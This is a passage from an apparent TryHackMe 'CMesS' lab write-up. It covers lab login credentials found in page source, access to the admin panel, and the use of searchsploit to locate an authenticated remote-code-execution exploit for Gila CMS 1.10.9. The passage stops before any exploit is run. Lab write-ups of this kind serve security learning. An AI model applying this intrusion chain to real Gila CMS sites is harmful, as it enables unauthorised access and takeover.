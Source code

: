 Find login credential `andre@cmess.thm`, `KPFTN_f2yxe%` 

Try to login to `/login` that we find in directory enumeration :

Login success let's navigate to `/admin` that we find in dirctory fuzz `http://cmess.thm/admin` :

![](/assets/TryHackMeRoomsImage/cmess/image5.png)

after enum this page i find 2 critical things: 
1. we can upload the file to gain access to this machine
2. Gila CMS version 1.10.9 by using `searchsploit` i find it has vulnerability:

--- 

## Initial Access 
```js
T4T4R1S  | Local IP ➜ 192.168.115.128 | VPN IP ➜ 10.14.109.66
~  searchsploit Gila CMS  1.10.9                                                              
--------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                       |  Path
--------------------------------------------------------------------------------------------------------------------- ---------------------------------
Gila CMS 1.10.9 - Remote Code Execution (RCE) (Authenticated)                                                        | php/webapps/51569.py
```

I will use this script to gain RCE upload files is boring for me it's repeated daily . 

- show absolute path to the shell

```js
~  searchsploit -p 51569.py         

  Exploit: Gila CMS 1.10.9 - Remote Code Execution (RCE) (Authenticated)
      URL: https://www.exploit-db.com/exploits/51569
     Path: /usr/share/exploitdb/exploits/php/webapps/51569.py
    Codes: N/A
 Verified: False
File Type: Python script, Unicode text, UTF-8 text executable
Copied EDB-ID #51569's path to the clipboard
```
now let's use it 
```bash
T4T4R1S  | Local IP ➜ 192.168.115.128 | VPN IP ➜ 10.14.109.66
```